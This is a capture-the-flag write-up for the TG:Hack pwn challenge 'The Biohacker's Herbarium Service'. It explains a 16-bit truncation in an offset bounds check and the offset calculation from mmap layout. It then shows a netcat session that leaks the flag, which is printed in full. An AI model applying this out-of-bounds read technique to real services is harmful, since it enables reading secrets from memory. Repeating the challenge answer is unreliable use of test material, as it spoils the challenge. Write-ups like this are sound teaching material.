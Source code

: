 # The Biohacker's Herbarium Service writeup
**Author: PewZ**

**Difficulty: easy**

**Category: pwn**

---

We are given a binary and no source code. Let's run the binary and perfom some
reverse engineering to figure out what the program does.

When we run it we are presented with the following menu:

```console
Welcome to the TG:Hack herbarium!
The place where you can store all your plant specimens
1. add plant specimen
2. read plant data
3. read plant data at offset
4. remove plant specimen
5. exit
>
```

Some basic testing reveals that there are no obvious use-after-free bugs etc.
We can add plant specimens up to 1000000 bytes in size, and read them back. We can also
delete plants, but they are safely set to NULL afterwards, so there's no way to
perform a double free.

When reading a plant using an offset, we have a weird bounds check. See the
following semi cleaned up code from IDA:
```C
  v0 = get_plant();
  v3 = (struct plant *)v0;
  if ( v0 )
  {
    printf("offset: ");
    v1 = get_num();
    if ( (unsigned __int16)v1 <= (unsigned int)v3->max_off )
      LODWORD(v0) = puts(&v3->buf[v1]);
    else
      LODWORD(v0) = puts("invalid offset!");
  }
  return (int)v0;
```

Note that our input (`v1`) gets truncated when it's casted to a 16-bit int. If
our specified offset is larger than the maximum size for a `uint16_t`, the check
will succeed!

This means that we can read data out of bounds, but what can we do with that?
Notice that the flag is read in at the start of main in the `read_flag()`
function. The flag is mapped into memory using `mmap()`. When requesting large
allocation sizes to malloc, it will fall back to using `mmap()` if the size is
too large to be handled by normal allocations. We can abuse the fact that
regions mapped using `mmap()` will be located at predictable offsets from each
other to read the flag out of bounds from an `mmap`ed chunk returned from
malloc.

The offset can be calculated by running the program in a Ubuntu bionic docker
container and checking the address of the two mapped regions.
Here's an example from `/proc/<PID>/maps`:

```
564e001ff000-564e00201000 r-xp 00000000 fd:01 15476957                   /home/tghack/chall
564e00400000-564e00401000 r--p 00001000 fd:01 15476957                   /home/tghack/chall
564e00401000-564e00402000 rw-p 00002000 fd:01 15476957                   /home/tghack/chall
564e008c5000-564e008e6000 rw-p 00000000 00:00 0                          [heap]
7f0d52c6d000-7f0d52e54000 r-xp 00000000 fd:01 14953453                   /lib/x86_64-linux-gnu/libc-2.27.so
7f0d52e54000-7f0d53054000 ---p 001e7000 fd:01 14953453                   /lib/x86_64-linux-gnu/libc-2.27.so
7f0d53054000-7f0d53058000 r--p 001e7000 fd:01 14953453                   /lib/x86_64-linux-gnu/libc-2.27.so
7f0d53058000-7f0d5305a000 rw-p 001eb000 fd:01 14953453                   /lib/x86_64-linux-gnu/libc-2.27.so
7f0d5305a000-7f0d5305e000 rw-p 00000000 00:00 0
7f0d5305e000-7f0d53085000 r-xp 00000000 fd:01 14953435                   /lib/x86_64-linux-gnu/ld-2.27.so
7f0d5318c000-7f0d53283000 rw-p 00000000 00:00 0
7f0d53284000-7f0d53285000 r--p 00000000 fd:01 15476958                   /home/tghack/flag.txt
7f0d53285000-7f0d53286000 r--p 00027000 fd:01 14953435                   /lib/x86_64-linux-gnu/ld-2.27.so
7f0d53286000-7f0d53287000 rw-p 00028000 fd:01 14953435                   /lib/x86_64-linux-gnu/ld-2.27.so
7f0d53287000-7f0d53288000 rw-p 00000000 00:00 0
7ffdcd3e5000-7ffdcd406000 rw-p 00000000 00:00 0                          [stack]
7ffdcd428000-7ffdcd42b000 r--p 00000000 00:00 0                          [vvar]
7ffdcd42b000-7ffdcd42d000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```
The allocated plant specimen is located at address `0x7f0d5318c010` (can be found be
attaching gdb and looking at the return value from `malloc()`), and the flag is
located at `0x7f0d53284000`. Now we can calculate the offset:
`0x7f0d53284000 - 0x7f0d5318c010 = 0xf7ff0`.

The solution is then:
1. add plant specimen with large size, so it is allocated using mmap
2. read plant data at offset 0xf7ff0

```console
$ nc plants.tghack.no 6004
1. add plant specimen
2. read plant data
3. read plant data at offset
4. remove plant specimen
5. exit
> 1
size: 1000000
data: AAAAAAAA
1. add plant specimen
2. read plant data
3. read plant data at offset
4. remove plant specimen
5. exit
> 3
index: 0
offset: 1015792
TG20{arent_you_tired_of_these_note_taking_services_yet?_e650f8d4343a4278d3450e0a1d737e54}
```

Note: the offset might vary a bit depending on how you run the binary. You could
also bruteforce the offset at `0x1000 - 0x10` intervals. The bruteforce should
take around 2 minutes.
